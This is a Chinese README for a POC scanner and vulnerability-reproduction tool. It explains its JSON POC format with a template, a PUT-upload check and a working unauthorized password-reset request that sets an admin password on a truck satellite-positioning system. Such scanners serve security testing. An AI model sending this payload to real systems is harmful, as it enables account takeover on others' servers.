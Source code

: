 ## ANG's Not Goby!



## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了，可执行文件报错就使用ang.py或者test.py，由于近期工作较忙，其他功能后续会开发

<img src="img\0.png">

使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```



```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing

<img src="img/1.png">

### scan 模块，-U是批量扫描，指定一个TXT文件

<img src="img\2.png">

-u 是指定一个目标进行扫描

<img src="img\3.png">

### download 模块

用于下载文件（目前支持http/https代理）

<img src="img/4.png">

用于下载文件，可以配合其他脚本爬取资源

<img src="img/5.png">

